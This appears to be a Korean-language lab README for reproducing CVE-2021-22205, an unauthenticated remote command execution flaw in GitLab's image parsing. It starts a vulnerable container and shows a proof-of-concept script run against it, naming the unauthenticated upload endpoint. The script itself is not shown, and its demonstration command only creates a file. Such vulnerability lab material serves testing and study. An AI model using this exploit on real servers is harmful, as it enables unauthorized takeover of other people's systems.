 # GitLab 사전 인증 원격 명령 실행(CVE-2021-22205)
GitLab은 웹 기반 DevOps 라이프사이클 툴로 위키, 이슈 추적, 지속적인 통합 및 배포 파이프라인 기능을 제공하는 Git 저장소 관리자를 제공합니다.

GitLab CE/EE에서 11.9부터 버전에 영향을 미치는 문제가 발견되었습니다. GitLab에서 파일 구문 분석기로 전달되는 이미지 파일의 유효성을 제대로 검사하지 않아 인증되지 않은 원격 명령이 실행되었습니다.

References:
 - https://hackerone.com/reports/1154542
 - https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
 - https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
 - https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml

Vulnerable environment
---
다음 명령을 실행하여 GitLab Community Server 13.10.1을 시작합니다:

```cmd
docker compose up -d
```
서버가 시작된 후 ```http://your-ip:8080```을 찾아 웹사이트를 확인합니다.

Exploit
---
api endpoint ```/ uploads/user```가 인증되지 않은 인터페이스입니다. poc.py 을 통해 서버를 공격합니다:

```python
python poc.py http://your-ip:8080 "touch /tmp/success"
```
![image](https://github.com/won6c/CVE-2021-22205/assets/126748292/d1a1ddba-af10-4fe8-98f3-be3d4fd72789)

```touch /tmp/success```가 정상적으로 실행됐다

![image](https://github.com/won6c/CVE-2021-22205/assets/126748292/ad77e3fd-9bd9-4b2e-98c5-dcde1d20fd75)
